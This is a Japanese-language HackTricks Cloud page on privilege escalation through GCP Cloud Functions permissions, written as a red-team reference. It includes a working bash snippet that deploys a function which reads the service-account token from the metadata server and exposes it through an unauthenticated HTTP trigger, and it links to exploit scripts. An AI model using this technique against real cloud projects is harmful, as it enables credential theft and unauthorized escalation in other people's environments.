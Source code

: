 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Cloud Functionsに関する詳細情報:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

これらの権限を持つ攻撃者は、**任意の（悪意のある）コードを持つ新しいCloud Functionを作成し、それにService Accountを割り当てることができます**。次に、メタデータからService Accountトークンを漏洩させて、その権限を昇格させます。\
関数をトリガーするためにいくつかの権限が必要な場合があります。

この方法のためのエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py)と[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py)にあり、事前構築された.zipファイルは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions)にあります。

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

これらの権限を持つ攻撃者は、**関数のコードを変更し、トークンを抽出する目的で関連付けられたサービスアカウントを変更することができます**。

{% hint style="danger" %}
Cloud Functionsをデプロイするには、デフォルトのコンピュートサービスアカウントまたはイメージを構築するために使用されるサービスアカウントに対するactAs権限も必要です。
{% endhint %}

追加の権限として、バージョン1のcloudfunctionsに対する`.call`権限や、関数をトリガーするための`role/run.invoker`ロールが必要な場合があります。
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
`Permission 'run.services.setIamPolicy' denied on resource...`というエラーが表示される場合は、`--allow-unauthenticated`パラメータを使用しており、十分な権限がないためです。
{% endhint %}

このメソッドのエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py)で見つけることができます。

### `cloudfunctions.functions.sourceCodeSet`

この権限を使用すると、**関数バケットにファイルをアップロードするための署名付きURLを取得できます（ただし、関数のコードは変更されず、更新する必要があります）** 

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

攻撃者の視点からこの権限がどれほど有用かはあまり確信が持てませんが、知っておくのは良いことです。

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

前述の**`.update`**または**`.create`**のいずれかの権限を自分に与えて昇格します。

### `cloudfunctions.functions.update`

**`cloudfunctions`**の権限だけでは、**`iam.serviceAccounts.actAs`**がないと関数を更新できないため、これは有効な昇格ではありません。

### バケットに対する読み取りおよび書き込みアクセス

バケットに対する読み取りおよび書き込みアクセスがある場合、コードの変更を監視でき、バケット内で**更新が発生したときに新しいコードを自分のコードに更新することができます**。これにより、Cloud Functionの新しいバージョンが提出されたバックドア付きのコードで実行されます。

攻撃の詳細については、以下を確認できます：

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

ただし、これを使用して第三者のCloud Functionsを事前に侵害することはできません。なぜなら、アカウント内にバケットを作成し、外部プロジェクトが書き込めるように公開権限を与えると、次のエラーが発生するからです：

<figure><img src="../../../.gitbook/assets/image (1).png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
ただし、これはDoS攻撃に使用される可能性があります。
{% endhint %}

### Artifact Registryに対する読み取りおよび書き込みアクセス

Cloud Functionが作成されると、新しいdockerイメージがプロジェクトのArtifact Registryにプッシュされます。新しいイメージでイメージを変更しようとしたり、現在のイメージ（および`cache`イメージ）を削除しようとしましたが、何も変わらず、Cloud Functionは動作し続けました。したがって、バケットと同様に**レースコンディション攻撃を悪用することができるかもしれません**が、**保存されたイメージを変更するだけではCloud Functionを侵害することはできません**。

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
